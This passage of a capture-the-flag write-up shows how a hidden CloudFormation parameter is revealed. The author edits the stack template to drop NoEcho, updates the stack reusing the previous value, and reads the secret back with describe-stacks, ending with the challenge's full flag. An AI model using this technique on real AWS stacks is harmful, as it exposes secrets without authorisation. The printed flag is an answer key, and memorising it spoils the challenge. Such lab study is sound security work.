 So I copied this entire thing into newtemplate.yaml then removed the NoEcho specifier and the STAGESAVAILABLE thingies.

Then after modifying the command from the [website](https://infosecwriteups.com/pentesting-cloud-part-2-is-there-an-echo-in-here-ctf-walkthrough-54ec188a585d), I ran

```
aws cloudformation update-stack --stack-name pawxy-sandbox-0570121c --template-body file://newtemplate.yaml --disable-rollback --parameters ParameterKey=flagpt2,UsePreviousValue=true
```

and it actually went through.

So now when we run

```
cloudformation describe-stacks --stack-name pawxy-sandbox-0570121c
```

we get

```
STACKS  2025-09-29T14:05:02.459000+00:00        Flag part 2
        True    False   2025-09-29T14:31:20.621000+00:00        arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-0570121c/4ade64a0-9d3d-11f0-be97-06fd013a2c11    pawxy-sandbox-0570121c  UPDATE_FAILED   The following resource(s) failed to create: [AppDataStore].
CAPABILITIES    CAPABILITY_IAM
DRIFTINFORMATION        NOT_CHECKED
PARAMETERS      flagpt2 _c47_4S7r0PHiC_fL4w5}
```

FLAG: TISC{iMPURrf3C7_sSRFic473_Si73_4nd_c47_4S7r0PHiC_fL4w5}







